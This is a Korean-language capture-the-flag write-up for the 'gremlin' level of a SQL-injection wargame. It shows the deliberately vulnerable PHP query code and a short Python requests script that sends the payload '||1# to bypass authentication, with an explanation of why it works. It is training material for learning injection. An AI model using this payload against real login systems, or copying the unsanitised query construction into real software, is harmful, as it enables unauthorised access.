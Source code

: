 
## GREMLIN Write-up

### 문제
``` php
<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); // do not try to attack another table, database!
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id from prob_gremlin where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['id']) solve("gremlin");
  highlight_file(__FILE__);
?>
```

### Exploit 코드
``` python
import requests

url = "http://los.rubiya.kr/gremlin_280c5552de8b681110e9287421b834fd.php"
session = {'PHPSESSID' : 'My PHPSESSID'}
data = {}
data['id'] = "'||1#"

res = requests.get(url, params=data, cookies=session)

if "Clear!" in res.text :
    print("[♪] GREMLIN Clear!")
```

python으로 HTTP 요청을 보내 응답을 받기 위해 requests 모듈을 사용했다.
``` php
if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~");
if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
```
GET으로 전송된 id와 pw를 필터링 하는 부분이다.
``` php
$query = "select id from prob_gremlin where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
```
id에서 싱글쿼터 필터링을 안하는 점을 이용해 우회할 수 있다.
id에 '||1#을 입력해주면 쿼리문이 참이 된다.
```
select id from prob_gremlin where id='**'||1#**' and pw=''
```
**$result['id']**에 값이 있어 문제가 풀린다.
